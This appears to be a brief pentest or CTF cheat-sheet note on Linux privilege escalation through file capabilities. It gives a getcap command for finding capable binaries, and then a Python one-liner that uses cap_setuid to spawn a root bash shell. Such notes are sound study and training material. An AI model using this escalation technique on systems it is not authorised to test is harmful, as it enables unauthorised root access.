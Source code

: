  Capabilities

* Similar to SUID in concept 
* More modern than SUID
## Hunting 
	* getcap -r / 2>/dev/null
	* Output: /usr/bin/python2.6 = cap_setuid+ep
		* means that all capabilites are permitted
	* /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
	* Gives root 